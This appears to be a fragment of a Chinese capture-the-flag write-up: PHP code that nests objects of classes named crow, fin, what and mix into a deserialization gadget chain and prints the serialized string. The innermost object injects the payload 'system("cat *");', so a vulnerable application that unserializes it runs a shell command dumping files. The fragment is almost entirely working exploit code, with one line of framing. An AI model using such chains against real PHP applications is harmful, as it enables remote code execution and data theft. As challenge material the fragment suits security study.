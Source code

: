 构造一下

```php
<?php
class crow
{
    public $v1;
    public $v2;

    public function __construct($v1)
    {
        $this->v1 = $v1;
    }
}

class fin
{
    public $f1;

    public function __construct($f1)
    {
        $this->f1 = $f1;
    }
}

class what
{
    public $a;

    public function __construct($a)
    {
        $this->a = $a;
    }
}
class mix
{
    public $m1;

    public function __construct($m1)
    {
        $this->m1 = $m1;
    }

}

$f = new mix('\nsystem("cat *");');
$e = new fin($f);
$d = new crow($e);
$c = new mix($d);
$b = new what($c);
$a = new fin($b);
echo (serialize($a));

?>
```
